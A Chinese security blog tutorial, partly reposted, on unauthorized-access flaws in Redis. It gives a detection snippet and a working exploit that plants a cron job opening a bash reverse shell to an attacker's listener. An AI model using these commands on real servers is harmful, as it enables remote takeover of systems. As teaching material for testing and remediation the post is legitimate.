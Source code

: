 ```yaml
---
title: 未授权访问漏洞的检测与利用
copyright: true
permalink: 1
top: 0
date: 2017-12-08 10:10:41
tags:
- 未授权访问漏洞
categories: web安全
password:
---
```

<blockquote class="blockquote-center">一杯敬故乡，一杯敬远方</blockquote>
　　最近在研究未授权访问漏洞的检测方式，也写了一部分检测脚本，准确率还挺高。当然光有检测还是不够的，最好能有漏洞利用过程，这样也好证明漏洞的风险性，便于推动漏洞修复也便于自己对漏洞更深入的了解。本文关于漏洞利用以及修复的内容绝大部分转载自：[安全脉搏](https://www.secpulse.com/archives/61101.html)，其实个人习惯是不喜欢全文照搬其他文章的，但无奈这篇文章总结的很好，我又没很多时间去整理，因此对其改动的不多，请读者务必谅解。

### redis未授权访问漏洞
#### 漏洞描述
redis安装完以后，默认是没有账号密码的（安装redis详细可参考：[redis相关笔记](https://thief.one/2017/11/15/1/）)，如果redis是以root权限去运行，则可以被反弹shell或者写入ssh密钥，从而被获取服务器的权限。
#### 漏洞检测
```bash
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
s.send("INFO\r\n")
result = s.recv(1024)

if "redis_version" in result:
    print "exist vul"

```
客户端连接测试一下：
```bash
$redis-cli -h host -p port
>CONFIG get requirepass
1) "requirepass"
2) ""
说明：表示没有设置密码，默认为没有密码。
```
#### 漏洞利用
##### 利用crontab反弹shell
自己服务器上监听一个端口(10.0.0.2)
```bash
nc -lvnp 4444
```
执行命令:
```bash
redis-cli -h 10.0.0.1
set x "\n* * * * * bash -i >& /dev/tcp/10.0.0.2/4444 0>&1\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```
